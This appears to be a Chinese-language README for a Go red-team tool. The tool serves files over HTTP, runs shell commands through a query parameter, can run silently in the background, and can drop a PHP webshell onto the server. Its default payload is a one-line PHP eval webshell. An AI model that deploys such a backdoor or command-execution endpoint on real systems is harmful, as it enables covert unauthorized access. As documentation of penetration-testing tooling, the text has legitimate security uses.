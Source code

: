 # HTTP Server GO

这是一个用Go编写的红队内网环境中一个能快速开启HTTP文件浏览服务的小工具，能够执行shell命令。它支持以下功能：


-提供指定目录中的文件

-能够使用指定的查询参数执行shell命令

-可自定义外壳路径和查询参数

-可自定义的IP地址和端口

-支持PHP、Java和.NET shell（目前仅支持转储PHP shell）

-在后台运行服务器而不向控制台打印任何内容的选项

-转储shell并在服务器上执行的选项（目前仅支持转储PHP shell）

## 用法

```
httpserver [OPTIONS]
```

### Application Options

- `-h`, `--help`:  显示帮助消息并退出 
- `-p PORT`, `--port PORT`:  自定义要侦听的端口（默认值：8080） 
- `-d DIR`, `--dir DIR`: 自定义提供文件的目录（默认值：当前目录） 
- `-s SHELL`, `--shell SHELL`:  自定义shell路径（默认值：`/？shell=`） 
- `-cs CODE`, `--code-shell CODE`:  自定义用于执行shell命令的查询参数（默认值：`/？code=`） 
- `-m MOD`, `--mod MOD`:  自定义shell模式（php/java/.net）（目前只支持php shell） 
- `--payload PAYLOAD`:  自定义shell内容（PHP的默认值：`<？PHP eval（$_POST['a']）；`，Java的默认值：空字符串） 
- `--silent`:  在后台运行服务器，不向控制台打印任何内容 ,会打印错误信息
- `-dump`, `--dumpshell`:  转储shell并在服务器上执行（目前只支持PHP shell） 

### 帮助选项：

- `-h`, `--help`: 显示帮助消息并退出

## 使用样例：

 要使用默认设置启动服务器，请执行以下操作： 

```
httpserver
```

 要在端口8888上启动服务器，请执行以下操作： 

```
httpserver -p 8888
```

 要启动服务器并从“public”目录提供文件，请执行以下操作： 

```
httpserver -d public
```

 要启动服务器并使用查询参数`/？cmd=`执行shell命令： 

```
httpserver -cs cmd
```

 要启动服务器并使用带有自定义代码的PHP shell，请执行以下操作： 

```
httpserver -m php --payload '<?php echo "Hello, world!"; ?>' 
```

 要落地PHP shell并在服务器上执行它： 

```
httpserver -dump -m php -cs cmd
```

